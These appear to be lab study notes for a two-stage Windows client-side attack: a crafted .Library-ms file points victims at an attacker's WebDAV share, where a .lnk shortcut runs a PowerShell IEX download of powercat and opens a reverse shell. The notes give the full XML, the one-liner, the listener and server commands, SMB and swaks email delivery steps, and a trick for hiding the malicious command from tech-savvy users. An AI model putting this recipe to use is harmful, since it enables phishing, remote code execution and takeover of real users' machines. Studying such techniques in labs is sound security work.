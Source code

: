 - Virtual containers for user content
- Connects users with data stored in remote locations like web services or shares
- Have a **.Library-ms** file extension and can be executed by double-clicking

### Two-stage client attack
1. Use Windows library files to gain a foothold on the target system and set up the second stage
	1. Create a Windows library file connecting to a _WebDAV_ share we'll set up
	2. Victim receives a **.Library-ms** file, perhaps via email
	3. They double click the file
		- Displays the remote location (our WebDAV folder) as if it were a local directory on the victim's computer
	4. In the WebDAV directory, we'll provide a payload in the form of a **.lnk** shortcut file for the second stage to execute a PowerShell reverse shell
		- The victim *has* to double click on the **.lnk** file
2. Use the foothold to provide an executable file that will start a reverse shell when double-clicked


# Setup WebDAV server

- Install *wsgidav* for the WebDAV server
- Make a directory specifically for the server & add a test file
- Start the server where:
	- The server host is listening on all ports
	- The port is 80
	- Authorization to the server is disabled
	- The server root is set to the previously made directory
```bash
# Install
pip3 install wsgidav

# Create dir for server
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt

# Run server
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

![](WebDAV.png)


# Create Library File
Library files
- Consist of three major parts
	- General Library Information
	- Library Properties
	- Library Locations
- Written in XML to specify the parameters for accessing remote locations
- Refer to the [Library Description Schema](https://docs.microsoft.com/en-us/windows/win32/shell/library-schema-entry) for further information.

- Connect to Windows client
- Use VSC or Notepad to create **config.Library-ms**
	- Once saved, its icon will be updated to something rarely seen/ used, so we'll change it in its code
	  ![](config-library-ms.png)
- Build the XML code
```xml
<?xml version="1.0" encoding="UTF-8"?>

<!--Namespace for the library file's format version (starting Win 7)-->
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

<!--Name specifies name of the library (DLL name & index)-->
<name>@windows.storage.dll,-34582</name>
<!--Set to numerical value of our choice-->
<version>6</version>

<!--Specifies if library is pinned to Explorer's navigation pane-->
<isLibraryPinned>true</isLibraryPinned>
<!--Determines icon used to display library file-->
<!--imagesres.dll to choose between all Windows icons. index "-1002" for Documents folder icon. "-1003" for Pictures folder icon.-->
<iconReference>imageres.dll,-1003</iconReference>

<!--Determines columns and details that appear in Explorer by default after opening-->
<!--use the Documents GUID to appear as convincing as possible-->
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>

<!--Library locations section-->
<!--Specify storage location where library file should point to-->

<!--Search Connectors specify the connection settings to remote locations-->
<searchConnectorDescriptionList>
<searchConnectorDescription>

<!--Determines behavior of Explorer when a user saves an item. True = Default location & behavior-->
<isDefaultSaveLocation>true</isDefaultSaveLocation>

<!--Used for compatibility-->
<isSupported>false</isSupported>

<!--Point to created WebDAV share over HTTP-->
<simpleLocation>
<url>http://192.168.45.167</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>

</libraryDescription>
```

- Double-click to test
![](config-library-ms-test.png)

- Back in the config file
	- More info is entered in the *url* tag
		- Windows attempt at optimizing the connection info
	- *serialized* tag is created
		- Contains base64-encoded information about the location of the _url_ tag
		- May not be working on other machines or after a restart
			- Can get passed by resetting file each time.

- Once double-clicked, the config file will receive the Mark of the Web tag

# Create Shortcut File
- Rt-click Windows Desktop > New > Shortcut
	- Set location
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.167:8000/powercat.ps1'); powercat -c 192.168.45.167 -p 4444 -e powershell"
```

	\* Note - If we expect that our victims are tech-savvy enough to actually check where the shortcut files are pointing, we can use a handy trick.
	Since our provided command looks very suspicious, we could just put a delimiter and benign command behind it to push the malicious command
	out of the visible area in the file's property menu. If a user were to check the shortcut, they would only see the benign command.

- Name shortcut **automatic_configuration**
	- Can also change Icon via Properties
- Test by creating python server on port 8000 for powercat.ps1 and nc listener to verify .lnk file works

# Attack
## Setup
- Use the created config Library to connect back to the WebDAV server on kali
- Copy/ Paste the **config.Library-ms** (reset *url* tags first) and **automation_configuration.lnk**
- Delivery to victim most likely through email
	- Use the SMB share **\\\\192.168.228.195\\share** to simulate delivery

## Deliver & Exploit
- Setup Python server for powercat.ps1
- Setup WebDAV server for exploit
- Setup nc listener
```bash
# Tab 1
# cd to directory w/ powercat.ps1
python -m http.server 8000

# Tab 2
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

# Tab 3
nc -nlvp 4444
```

- Upload file to SMB share for simulated user to open
```bash
cd webdav
rm test.txt
smbclient //192.168.228.195/share -c 'put config.Library-ms'
```

- If sending via SMTP
```bash
swaks --to <victim email> --from <abused email> --server 192.168.228.199 --auth-user <abused email> -auth-password <abused pw> --attach /home/kali/webdav/config.Library-ms --header "test" --body "config file for software"
```


- Should have a reverse shell